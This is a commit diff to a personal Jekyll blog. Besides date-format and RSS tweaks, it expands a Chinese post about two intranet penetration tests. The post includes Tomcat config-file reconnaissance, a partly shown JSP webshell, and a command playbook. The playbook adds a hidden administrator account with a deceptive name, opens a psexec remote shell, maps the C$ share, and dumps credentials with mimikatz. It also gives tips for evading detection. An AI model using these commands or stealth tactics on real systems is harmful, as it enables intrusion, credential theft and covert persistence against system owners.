

Before and after one commit to alpha1e0/alpha1e0.github.io, a Jekyll site: the page built from _posts/2015-04-21-近期的两次渗透测试.md, in a window 1280 px wide. Shown: the whole page at 74% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1112 px from its top, so only the background shows below that.

Commit message:
文章更新

```diff
--- a/_layouts/post.html
+++ b/_layouts/post.html
@@ -5,7 +5,7 @@ layout: default
 
   <header class="post-header">
     <h1 class="post-title">{{ page.title }}</h1>
-    <p class="post-meta">{{ page.date | date: "%b %-d, %Y" }}{% if page.author %} • {{ page.author }}{% endif %}{% if page.meta %} • {{ page.meta }}{% endif %}</p>
+    <p class="post-meta">{{ page.date | date: "%Y-%m-%d" }}{% if page.author %} • {{ page.author }}{% endif %}{% if page.meta %} • {{ page.meta }}{% endif %}</p>
   </header>
 
   <article class="post-content">
--- a/_posts/2015-04-21-近期的两次渗透测试.md
+++ b/_posts/2015-04-21-近期的两次渗透测试.md
@@ -1,26 +1,29 @@
 ---
 layout: post
-title: 最近的两次渗透经历
+title: 最近两次内网渗透经验小记
+author: alpha1e0
 categories: 渗透经验
 tags: 渗透测试
 ---
 
-## tomcat站点目录便利漏洞的利用
-**利用配置文件。**
+## 0x00 tomcat站点目录便利漏洞的利用
+**1 利用配置文件获取信息。**
 
 * 全局配置文件`server.xml`。存放在tomcat目录下conf文件夹，主要是`server.xml`，关注host标签、host中得context标签。
 * 站点配置文件`web.xml`。全局的web.xml很少有敏感信息，主要关注`webapps/app/WEB-INF/web.xml`，这个配置文件有关于servlet的信息
 * 其他配置文件，例如`struct-config.xml`，有关于bean的详细信息
 
-**利用日志文件。**
+**2 利用日志文件获取信息。**
 
 * 日志文件的格式和存储目录在`servlet.xml`文件中配置
 * 日志文件中可能有网站打包的jar文件的文件名
 * 日志文件可能有sessionid等信息
 
-##JSP小马利用方式
+------
 
-**JSP小马**
+## 0x01 JSP小马利用方式
+
+**1 JSP小马**
 
 {% highlight java %}
 <%
@@ -35,3 +38,26 @@ tags: 渗透测试
           out.print("</pre>");
 }%>
 {% endhighlight %}
+
+*PS：以上代码最好改为POST方法*
+
+**2 JSP小马利用**
+
+这个小马利用起来比较麻烦，非交互，而且中文显示也有问题，所以还需要利用jsp小马获得更方便的shell。
+如果135，3389无法访问，就比较麻烦了，不过我这次碰到的情况这两个端口都是开启的。
+
+* 利用135端口
+
+		net user superuser passwd /add  #添加superuser账户，用户名一定要混淆视听，比如tomcat、sqlserver之类
+
+		net localgroup administrators superuser /add  #将用户superuser加入到administrators组
+
+		psexec \\ip -u superuser -p passwd "cmd.exe"  #使用psexec远程shell
+
+		net use z: \\ip\c$ /superuser:passwd  #映射磁盘到本地z：
+
+		mimikatz.exe; privilege::debug; sekurlsa::logonpasswords  #导用户密码；导出用户密码之后最好删除superuser用户
+
+* 利用3389端口
+
+	利用3389端口远程桌面，这里要注意的是，3389“动作较大”容易被发现，如果是windows server还好，如果是普通windows则很容易被人发现，例如win7，如果黑客使用的不是当前登录的用户的账户，则当前登录的用户会看到一个对话框“某某想要远程登录到这台机器，是否允许”之类，当前用户一定会发现。
--- a/_sass/_layout.scss
+++ b/_sass/_layout.scss
@@ -234,3 +234,8 @@
         }
     }
 }
+
+.rss-subscribe {
+    font-size: 16px;
+    float: right;
+}
--- a/index.html
+++ b/index.html
@@ -4,17 +4,15 @@ layout: default
 
 <div class="home">
 
-  <h1 class="page-heading">文章列表</h1>
+    <h1 class="page-heading">文章列表  <a class="rss-subscribe" href="{{ "/feed.xml" | prepend: site.baseurl }}">RSS订阅</a></h1>
 
   <ul class="post-list">
     {% for post in site.posts %}
       <li>
-        <span class="post-meta">{{ post.date | date: "%b %-d, %Y" }}</span>
+        <span class="post-meta">{{ post.date | date: "%Y-%m-%d" }}</span>
           <a class="post-link" href="{{ post.url | prepend: site.baseurl }}">{{ post.title }}</a>
       </li>
     {% endfor %}
   </ul>
 
-  <p class="rss-subscribe"><a href="{{ "/feed.xml" | prepend: site.baseurl }}">RSS订阅</a></p>
-
 </div>
```
Also changed, not shown: _posts/2015-04-15-welcome-to-jekyll.markdown (+18 -9 lines), README.md.
